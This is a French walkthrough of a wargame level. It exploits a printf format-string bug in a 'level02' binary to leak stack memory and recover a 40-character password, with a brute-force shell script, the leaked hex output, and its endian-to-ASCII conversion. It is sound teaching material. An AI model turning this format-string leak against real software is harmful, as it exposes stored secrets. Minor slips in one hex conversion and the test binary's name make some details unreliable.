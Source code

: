 # LEVEL 02

Le binaire level02 ne contiens qu'une fonction **main**.

Cette fonction appelle **open** de **"/home/users/level03/.pass"** suivi d'une comparaison menant à un **exit**, puis un **fread**.

Cela nous restreint dans notre utilisation de GDB, mais on sait que le **pass** est stocké quelque-part dans la **stack**.

Le programme lit 2 fois sur l'entrée standard via **fgets**.

La premiere string **login** est passée en premier argument à la fonction **printf**.

La deuxième string **passwd** est comparée au fichier **level03/.pass** et si la comparaison réussie le programme lance un **shell**.

On peut via le **script** ci dessous récupérer dans un fichier les valeurs stockées dans la **stack** de la fonction **main**:

<pre>
#!/bin/sh
IDX=0
while [ $IDX -lt 361 ]
do
echo $IDX >> /tmp/hexmap
(python -c "print '%$IDX\$lx ' + '\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  + '\n'") | ~/level02 | grep "access!" >> /tmp/hexmap
IDX=$((IDX+1))
echo $IDX
done
</pre>

En regardant le fichier créé on trouve un zone mémoire contenant 40 caractères suivie d'un \0:

<pre>
%0$lx  does not have access!
7fffffffe4f0  does not have access!
0  does not have access!
0  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
7fffffffe6e8  does not have access!
1f7ff9a08  does not have access!
...
100000000  does not have access!
0  does not have access!
756e505234376848  does not have access!
45414a3561733951  does not have access!
377a7143574e6758  does not have access!
354a35686e475873  does not have access!
48336750664b394d  does not have access!
0  does not have access!
20786c24383225  does not have access!
...
</pre>

On peut essayer de traduire cette string de 40 char.

On doit inverser la position de chaque valeur dans chaque zone mémoire pour passer de little endian à big endian.
Puis convertir les valeurs de l'hexa vers la **table ascii**:

<pre>


	little endian	 => big endian		 => str
1.	756e505234376848 => 4868373452506e75 => Hh74RPnu
2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE
3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7
4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5
5.	48336750664b394d => d4394b6650673348 => M9KfPg3H
0 => length 40


passwd => Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
</pre>

En le testant:
<pre>
./level03
"test"
"Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"
Greetings, test!
$>
</pre>